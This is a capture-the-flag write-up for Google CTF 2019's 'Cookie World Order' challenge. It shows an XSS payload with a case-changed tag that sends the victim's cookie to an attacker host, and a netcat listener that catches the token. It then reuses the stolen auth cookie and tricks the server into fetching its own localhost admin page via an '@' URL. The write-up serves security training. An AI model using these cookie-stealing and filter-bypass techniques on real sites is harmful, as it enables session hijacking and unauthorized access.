


## Write-up: **Cookie World Order**

Google CTF 2019: [Beginner’s Quest](https://capturetheflag.withgoogle.com/#beginners/)



This is a `web` challenge that involves an XSS attack: <https://cwo-xss.web.ctfcompetition.com>

We are presented a chat widget and we can chat as user “brewtoot” with user “Admin”. There appears to be a word filter in place, since `<script>` outputs the message “HACKER ALERT!”.



`<SCRIPT>` on the other hand works. Our goal is to have the other person disclose their browser cookie. This line is sufficient:

```html
<SCRIPT>new Image().src="https://PUBLIC_URL/"+document.cookie</SCRIPT>
````

Note that there will be two incoming requests, one from ourselves and one from the victim. [PostBin](https://postb.in) is a great tool for this, but netcat also works if timed correctly:

```
$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from localhost 46010 received!
GET /?flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r};%20auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz HTTP/1.1
## ...
Referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3CSCRIPT%3Enew%20Image().src=%22http://PUBLIC_URL/%22+document.cookie%3C/SCRIPT%3E
## ...
```

**Flag 1**: `CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}`

## Flag 2

In addition to the flag, the cookie also contains an `auth` token which we can use to find the second flag.

First, we observe that there is a hidden page at https://cwo-xss.web.ctfcompetition.com/admin, which redirects to the start page. The [Government Agriculture Network](https://github.com/weibell/ctf-google2019-beginners/tree/master/write-up#day3-easier) challenge is very similar in this regard.

```
GET /admin HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 302 FOUND
Date: Sun, 23 Jun 2019 11:50:37 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 209
Server: gunicorn/19.9.0
Location: http://cwo-xss.web.ctfcompetition.com/
Via: 1.1 google

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/">/</a>.  If not click the link.
```

And this is when we make the same request with the `auth` token set:

```
GET /admin HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com
Cookie: auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz


```

```
HTTP/1.1 200 OK
Date: Sun, 23 Jun 2019 11:51:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1115
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>CWO Network</title>
    <link rel="stylesheet" href="/static/css/main.css">
    <link href="https://fonts.googleapis.com/css?family=Roboto" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script>
    <script src="/static/js/main.js"></script>
    <script src="/static/js/admin.js"></script>
  </head>
  <body>
    <div class="top-bar">
      <div class="top-bar-container">
        <div class="top-bar-logo">
          CWO
        </div>
      </div>
    </div>
    <div class="admin-side-nav">
      <a href="/admin/users">
        <div class="admin-side-item">
          Users
        </div>
      </a>
      <a href="/admin/livestreams">
        <div class="admin-side-item">
          Livestreams
        </div>
      </a>
      <a href="/admin/controls">
        <div class="admin-side-item">
          Camera Controls
        </div>
      </a>
    </div>
    <div class="admin-container">
      <div class="admin-message">
        
      </div>
    </div>
  </body>
</html>
```

Unfortunately, we cannot access <https://cwo-xss.web.ctfcompetition.com/admin/controls> just yet:

```
GET /admin/controls HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 403 FORBIDDEN
Date: Sun, 23 Jun 2019 11:55:41 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 37
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

Requests only accepted from 127.0.0.1
```

After some trial and error, we find that we can try to use `/watch?livestream=...` for a Local File Inclusion attack. However, it comes with a catch: `/watch?livestream=...` requires the file to begin with `http://cwo-xss.web.ctfcompetition.com`. We can use this trick as a workaround:

```
GET /watch?livestream=http://cwo-xss.web.ctfcompetition.com@postb.in/b/0123456789 HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

After confirming that this request goes through, we can finally grab the second flag:

```
GET /watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls HTTP/1.1
Host: cwo-xss.web.ctfcompetition.com


```

```
HTTP/1.1 200 OK
Date: Sun, 23 Jun 2019 11:57:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1529
Vary: Accept-Encoding
Server: gunicorn/19.9.0
Via: 1.1 google

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <title>CWO Network</title>
    <link rel="stylesheet" href="/static/css/main.css">
    <link href="https://fonts.googleapis.com/css?family=Roboto" rel="stylesheet">
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script>
    <script src="/static/js/main.js"></script>
    <script src="/static/js/admin.js"></script>
  </head>
  <body>
    <div class="top-bar">
      <div class="top-bar-container">
        <div class="top-bar-logo">
          CWO
        </div>
      </div>
    </div>
    <div class="admin-wrapper">
      <div class="admin-side-nav">
        <a href="/admin/users">
          <div class="admin-side-item">
            Users
          </div>
        </a>
        <a href="/admin/livestreams">
          <div class="admin-side-item">
            Livestreams
          </div>
        </a>
        <a href="/admin/controls">
          <div class="admin-side-item">
            Camera Controls
          </div>
        </a>
      </div>
      <div class="admin-container">
        <div class="admin-message">
          CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}
        </div>
        <div class="controls-title">
          Livestream Controls
        </div>
        <div class="livestream-video">
          <video loop autoplay muted src="/watch?livestream=http://localhost//livestream/garden-livestream.webm" />
        </div>
      </div>
    </div>
  </body>
</html>


```

There it is, the second flag!

**Flag 2**: `CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}`

